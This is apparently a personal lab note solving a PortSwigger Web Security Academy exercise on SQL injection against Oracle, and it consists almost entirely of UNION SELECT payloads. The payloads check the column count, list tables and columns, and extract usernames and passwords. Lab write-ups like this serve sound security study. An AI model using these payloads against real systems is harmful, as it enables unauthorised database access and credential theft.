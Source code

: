 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/listing-the-database-contents-on-oracle/"}
---
```







- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'+FROM+dual--
```

- Payload to retrieve the list of tables in the database:

```Plain
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

- retrieve the details of the columns in the table:
    - `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
- retrieve the usernames and passwords for all users:

```Plain
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```